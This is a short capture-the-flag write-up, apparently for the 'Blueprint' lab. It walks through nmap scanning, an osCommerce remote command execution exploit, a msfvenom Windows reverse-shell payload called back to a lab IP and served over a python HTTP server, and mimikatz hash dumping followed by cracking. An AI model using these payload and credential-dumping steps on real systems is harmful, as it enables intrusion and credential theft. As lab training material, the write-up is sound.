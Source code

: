 # Blueprint
## Scanning and Enumeration
### Nmap
![nmap](images/nmap.png)

- **Apache:**
  - 80: 404
  - 443/8080 Open

- **Smb**

### Web
![oscommerce](images/apache.png)

Let's look online for an exploit!

## Exploitation

https://github.com/nobodyatall648/osCommerce-2.3.4-Remote-Command-Execution

![RCE shell](images/rce.png)

RCE doesn't allow us to move and use normal commands. Now we have to get better shell.

## Post-Exploitation

Let's create a payload to get normal shell access with `msfvenom`.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.39.178 LPORT=8888 -f exe > shell-x86.exe
```

We open a port and get the file from the RCE shell.

Host:
```bash
python3 -m http.server 8000
```

Victim:
![fetch files](images/certutil.png)

Now we listen to port `8888` on host and execute `shell-x86.exe` from the RCE shell.

![Get shell](images/get_shell.png)

And we are Administrator already.

### Finding hashes
To get the hashes of the pc we can use tools like `mimikatz` or `fpdump`. We can get both files to the victim using the same `certutil` command as before.

Execute `mimikatz` and we get the hashes:

![mimikatz](images/mimikatz.png)

And we crack the MD5 hashes (I use [HackStation](https://crackstation.net/)).